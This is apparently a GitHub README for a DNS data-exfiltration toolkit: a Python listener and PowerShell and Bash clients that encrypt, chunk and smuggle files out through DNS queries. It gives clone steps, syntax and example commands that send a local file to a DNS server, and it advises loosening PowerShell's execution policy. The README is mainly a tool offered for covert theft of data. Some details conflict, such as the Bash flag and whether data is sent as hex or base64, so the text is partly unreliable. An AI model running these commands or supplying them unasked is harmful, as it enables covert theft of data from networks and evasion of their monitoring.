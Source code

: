 # DNS Exfiltration Tool

## DNS Server in Python (dnsexfil_server.py)

### Overview

The Python server script (`dnsexfil_server.py`) listens for DNS queries and reconstructs files sent by the exfiltration clients.

### Features

- **XOR Decryption:** Decrypts received data chunks using XOR decryption with the specified password.
- **File Compression:** Reconstructs and extracts received files locally.
- **Simultaneous Transfer:** Supports simultaneous connections and transfers.
- **Resume Interrupted Transfer:** Supports resuming interrupted transfer.
- **Error Handling:** Ignores queries received twice, and ignores queries with unknown or simple format.
- **TCP/UDP Support:** Can handle both TCP and UDP DNS queries.

### Requirements

- Python 3.x
- `dnslib` library (`pip install dnslib`)

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. Install the required Python libraries:
```bash
pip install dnslib
```

### Usage

**Syntax**

```bash
python3 dnsexfil_server.py <dns_server_ip> <password> [--usetcp]
```

**Parameters**

- `<dns_server_ip>`: IP address of the DNS server where the server should listen for queries.
- `<password>`: Password used by clients for XOR encryption.
- `--usetcp` (optional): Use TCP instead of UDP for handling DNS queries.

**Example**

```bash
python3 dnsexfil_server.py 192.168.1.100 securepass --usetcp
```

**Notes**

Ensure that the server is configured to listen on a DNS server IP address that can receive DNS queries from clients.
The server decrypts and reconstructs files based on received DNS queries.

## DNS Client in PowerShell (dnsexfil_client.ps1)

### Overview

The PowerShell script (`dnsexfil_client.ps1`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features
- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements

- PowerShell (version 3.0 or higher recommended)
- Windows operating system (script may require adjustments for other platforms)
- Access to a DNS server for sending queries

### Installation

1. Clone or download the repository to your local machine:

```powershell
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required. Ensure PowerShell script execution policy allows running the script (`Set-ExecutionPolicy RemoteSigned` or `Set-ExecutionPolicy Unrestricted`).

### Usage

**Syntax**

```powershell
.\dnsexfil_client.ps1 -FilePath <file_path> -Domain <domain> -DnsServerIp <dns_server_ip> -Password <password> [-UseTcp]
```
**Parameters**

- `-FilePath`: Path to the file you want to exfiltrate.
- `-Password`: Password to be used in XOR encryption.
- `-Domain`: Domain to use in DNS queries.
- `-DnsServerIp`: IP address of the DNS server.
- `-UseTcp` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```powershell
.\dnsexfil_client.ps1 -FilePath "C:\path\to\your\file" -Domain "example.com" -DnsServerIp "8.8.8.8" -Password "securepass" -UseTcp
```

**Notes**

Ensure that the DNS server configured (`-DnsServerIp`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).

## DNS Client in Bash (dnsexfil_client.sh)

### Overview

The Bash client script (`dnsexfil_client.sh`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features

- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements
- Unix-based operating system (Linux, macOS, etc.)
- Install xortool tool (`pip3 install xortool`)
- nslookup or equivalent DNS tool installed

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required.

### Usage

**Syntax**

```bash
./dnsexfil_client.sh -f <file_path> -p <password> -d <domain> -s <dns_server_ip> [-t]
```

**Parameters**

- `-f`: Path to the file you want to exfiltrate.
- `-p`: Password to be used in XOR encryption.
- `-d`: Domain to use in DNS queries.
- `-s`: IP address of the DNS server.
- `-t` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```bash
./dnsexfil_client.sh -f "/path/to/your/file" -p "securepass" -d "example.com" -s "8.8.8.8" --use-tcp
```

**Notes**

Ensure that the DNS server configured (`-s`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).
Encrypted data is sent as hexadecimal strings in DNS queries.

# License
This project is licensed under the MIT License - see the LICENSE file for details.

# Acknowledgments
Inspired by the following DNS exfiltration tools:
- https://github.com/Arno0x/DNSExfiltrator
- https://github.com/m57/dnsteal
